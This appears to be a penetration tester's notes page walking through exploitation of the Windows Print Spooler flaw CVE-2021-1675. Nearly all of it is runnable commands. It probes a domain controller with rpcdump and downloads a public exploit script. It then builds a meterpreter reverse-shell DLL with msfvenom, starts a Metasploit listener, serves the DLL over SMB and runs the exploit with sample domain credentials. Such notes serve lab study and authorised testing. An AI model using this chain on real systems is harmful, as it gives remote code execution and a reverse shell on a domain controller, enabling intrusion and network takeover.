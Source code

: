 **Windows Print Spooler Elevation of Privilege Vulnerability.**
https://github.com/cube0x0/CVE-2021-1675 (RCE)
https://github.com/calebstewart/CVE-2021-1675 (PrivESc)
```bash
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/rpcdump.py
```
```bash
python3 rpcdump.py @$DOMIAN_CONTROLLER_IP | egrep 'MS-RPRN|MS-PAR'
```
==This means VULNERABLE==
`Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol`
`Protocol: [MS-RPRN]: Print System Remote Protocol`
[[Impacket#Latest Version]]
```bash
sudo wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py
```
**Here we are generating a reverse dll file, and executing it remotely by smb.**
![[1._Reverse Shells (WIN)#MSFVenom#DLL]]
```bash - Kali
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$KALI LPORT=443 -f dll > shell.dll
```
**Next we run Metasploit and set up a listener**
```bash - Kali
sudo msfdb run
```
```bash - Kali
use multi/handler
```
```bash - Kali
options
```
```bash - Kali
set payload windows/x64/meterpreter/reverse_tcp
```
```bash - Kali
set LPORT 443
```
```bash - Kali
set LHOST $KALI
```
```bash - kali
run
```
```bash - kali
smbserver.py share `pwd`
```
```python
python3 CVE-2021-1675.py marvel.local/groot:Password1@$DOMAIN_CONTROLLER_IP '\\<$KALI>\share\shell.dll'
```
IF error occurs, run smbserver.py with smb2 support as shown below:
```bash - kali
smbserver.py share `pwd` -smb2support
```
